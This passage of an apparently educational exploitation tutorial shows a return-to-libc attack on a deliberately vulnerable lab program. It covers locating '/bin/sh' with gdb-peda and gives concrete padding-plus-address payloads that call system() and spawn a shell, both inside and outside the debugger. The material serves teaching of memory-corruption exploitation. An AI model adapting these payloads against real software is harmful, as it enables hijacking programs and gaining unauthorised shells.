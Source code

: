 ![/bin/sh as an environment variable inside the vulnerable program at 0xBFFFFEF0](../../../.gitbook/assets/image%20%28850%29.png)

### Find String in gdb-peda

Worth remembering, that we can look for the required string using gdb-peda like so:

```text
find "/bin/sh"
```

![/bin/sh can be seen in multiple locations in the vulnerable program](../../../.gitbook/assets/image%20%28913%29.png)

## Exploiting

Assuming we need to send 16 bytes of garbage to the vulnerable program before we can overwrite its return address, and make it jump to `system()` \(located at `0xb7e13870`, expressed as `\x70\x38\xe1\xb7` due to little-endianness\), which will execute `/bin/sh` that's present in  `0xb7f52968` \(expressed as `\x68\x29\xf5\xb7`\), the payload in a general form looks like this:

```csharp
payload = A*16 + address of system() + return address for system() + address of "/bin/sh"
```

...and when variables are filled in with correct memory addresses, the final exploit looks like this:

```c
r `python -c 'print("A"*16 + "\x70\x38\xe1\xb7" + "\x30\x6c\xe0\xb7" + "\x68\x29\xf5\xb7")'`
```

Once executed, we can observe how `/bin/sh` gets executed:

![Vulnerable program spawns a /bin/sh shell](../../../.gitbook/assets/image%20%28842%29.png)

Let's see if the exploit works outside gdb:

```
Addresses of `system()`, `exit()` and `/bin/sh` used in the below payload are different to those captured in earlier screenshots due to a rebooted VM.
```

```python
./vulnerable `python -c 'print("A"*16 + "\x40\xe0\xe0\xb7" + "\x90\xb3\xf0\xb7" + "\x3c\x53\xf5\xb7")'`
```

![Once the vulnerable program is exploited, it spawns a /bin/sh](../../../.gitbook/assets/exploit-outside-gdb.gif)

## References

[https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf](https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&-return-to-libc-chaining-tutorial.pdf)

[https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2019/readings/return-to-libc.pdf)

@spotheplanet
